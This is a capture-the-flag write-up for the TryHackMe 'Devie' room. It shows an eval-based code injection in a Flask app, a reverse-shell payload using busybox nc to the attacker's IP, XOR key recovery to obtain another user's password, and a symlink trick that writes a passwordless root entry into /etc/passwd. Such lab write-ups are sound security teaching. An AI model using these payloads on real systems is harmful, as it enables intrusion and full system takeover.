---

## Introduction

- Difficulty: Medium
- Time: 180 mins

> Don't always trust what you can't see.

Room Link: [Devie](https://tryhackme.com/room/devie)

---

## Reconnaissance

Add the target IP at the end of your `/etc/hosts` file, by appending the following line.

```
10.49.128.129 devie.thm
```

We start with a simple `nmap` scan.

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-13 16:22 +0530
Nmap scan report for devie.thm (10.49.128.129)
Host is up (0.12s latency).
Not shown: 9997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:f7:39:55:8c:be:b9:25:fe:db:5a:6c:ac:23:21:c2 (RSA)
|   256 d2:02:7d:eb:02:3b:6b:11:a7:0f:ff:e2:4f:bc:65:3d (ECDSA)
|_  256 c4:fb:8d:00:6e:54:f9:2b:1d:9d:68:0e:12:02:e9:f4 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.1.2 (Python 3.8.10)
|_http-server-header: Werkzeug/2.1.2 Python/3.8.10
|_http-title: Math
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.01 seconds
```

We have `22/ssh` and `5000/http` open. Let's just have a look at the website.


It's a website with a three calculators in it. Entering some numbers, it does return the correct result. Checking the HTML source code, nothing can be found. Only interesting thing is the application source code link at the bottom. I downloaded the zip and unzipped it.



---

## Getting RCE

Checking the main application code (`app.py`), its a Flask application, with individual files for each calculator. Each file contains the initialization of the data type of the input variables of that calculator. For example the quadratic one contains three floating inputs.



If you look at the source code for the bisection calculator, we see the inputs are strings (not floats).



And checking the main source code, we find a critical vulnerability in the logic.



The string variables (`xa` and `xb`) are literally concatenated and passed to the `eval` function. `eval()` is a dangerous function in Python which can lead to execution of untrusted user input if proper sanitisation is not in place. The following code is particularly of interest.

```python
added = xa + " + " + xb
c = eval(added)
```

To inject a payload in the bisection calculator's input field, we need to craft the payload in two parts which after concatenation becomes a valid Python code, which `eval` can then execute. Its basically RCE. To test for RCE, we try to do a simple ping to our machine.

```python
__import__('os').system('ping -c2 192.168.143.124')
```

> [!NOTE] Why are we using `__import__('os')` instead of `import os`?
> `eval()` can evaluate expressions not statements. `import os` is a statement whereas `__import__('os')` is a function call (an expression). For executing statements, we use `exec()`.

This is the complete payload, but we need to break it into two parts. I thought of the following way, yours can be different.

```python
xa = "__import__('os').system('ping -c2 192.168.143.124') #"
xb = "anything random"
```

which results into

```python
>>> xa = "__import__('os').system('ping -c2 192.168.143.124') #"
>>> xb = "anything random"
>>> added = xa + " + " + xb
>>> added
"__import__('os').system('ping -c2 192.168.143.124') # + anything random"
```

Before entering the payload, we open up a new terminal and run `tcpdump` to see whether our machine actually receives the ping requests (ICMP Echo requests).

```
$ sudo tcpdump -i tun0 icmp
```

And now we enter the payload in two parts.



And we see activity on the terminal.

```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:04:30.861727 IP devie.thm > kali: ICMP echo request, id 1, seq 1, length 64
17:04:30.861747 IP kali > devie.thm: ICMP echo reply, id 1, seq 1, length 64
17:04:31.909103 IP devie.thm > kali: ICMP echo request, id 1, seq 2, length 64
17:04:31.909138 IP kali > devie.thm: ICMP echo reply, id 1, seq 2, length 64
```

So we have proven RCE exists! Now we need a reverse shell.

---

## Shell as bruce

This is the reverse shell payload I will use.

```python
__import__('os').system('busybox nc 192.168.143.124 1337 -e bash')
# I have checked with nc beforehand, it does not work. Busybox nc works.
```

Before entering the payload, just remember to start a listener on your desired port. (My favourite is port 1337 for obvious reasons!)

```
$ penelope -p 1337
```

Now enter the payload as explained previously. And press Submit. Enjoy your shell!



---

## Shell as gordon



Ok, so there is a lot happening in this image. There are 3 interesting files in `/home/bruce` - checklist, note, flag1.txt. `note` is particularly interesting. It contains some words probably from another user named `gordon`, who claims his password is encrypted and he has shared the ciphertext with us.

According to the note, this is the recipe he used to encrypt his password.

1. XOR with a secret key
2. Base64 encode it

So what we have is `base64(xor(password, secretkey))`. Getting the raw XOR'ed string is easy, We can use the following command.

```
$ echo -n 'REDACTED' | base64 -d
[...]
$ echo -n 'REDACTED' | base64 -d | xxd
[...]
```

If you compare the outputs, you will find there are non-printable characters (visible in the hexdump).

Gordon also said about some script in the `/opt` directory. Let's check it.



There is an encrypt script. Possibly the script used to encrypt Gordon's password. But seeing the permissions, we don't have permission to read, write or execute. Let's check the output of `sudo -l`.



So we can run the command `/usr/bin/python3 /opt/encrypt.py` as `gordon` without any password. Let's do it.



The script contains logic to encrypt any given password as mentioned by Gordon. But we don't have the secret key yet.

There is a property of the XOR function. XOR'ing two identical strings, cancels out,

```
cipher = password ^ secret

Now, password ^ cipher = password ^ (password ^ secret)
                       = (password ^ password) ^ secret
                       = secret
```

The secret is constant for every operation. We can give a really long password to get the cipher text. Then we can XOR our known password and the cipher text, to get the secret key.



Now we Base64 decode this and XOR the raw bytes we get with our really long password to get the secret key. We will use CyberChef for this.



Once you see the secret key, you will see it starts repeating. The part which repeats is the secret key. Now that we have that, we can decode Gordon's encrypted string to recover his password.



Now we just login to gordon's account.



And we get Flag 2!

---

## Shell as root



There are two interesting folders in the home directory of `gordon`. Both contain the same files. Its like as if the contents of one (namely `reports`) are backed up into the other (namely `backups`). So there must be some script that continuously runs in the background which backs up the files.

Using the `pspy` tool, we can find whether such a service is really running or not. It basically shows which services are running in the backgroud in realtime.

To download `pspy` on the target machine, first download in your machine (or AttackBox) and then transfer it to the target using a simple Python HTTP server and `wget` (or `curl`).



After waiting for sometime, we see something interesting.



Apparently there is a backup script at `/usr/bin/backup` which is being run as `root` (because of `UID=0` in the output).

So we need to exploit this script and gain the shell as root.

What I thought, is this. We copy the system's `/etc/passwd` file, add a new root user (without password) to it, symlink the `backups` folder to `/etc` and place the modified `passwd` file in `reports`. In this way, when the script runs, it copies everything in `reports` (including modified `passwd`) to `backups` (which is actually `/etc`). This way we essentially added a new root user without a password, which we can `su` into.

This is the line we will append at the end of `/etc/passwd` to add a custom root user.

```
newroot::0:0:root:/root:/bin/bash
```



Wait for sometime, and then check the contents of the `/etc/passwd` file. You should see your new root user.



Now we just `su` into it. And we have root flag.


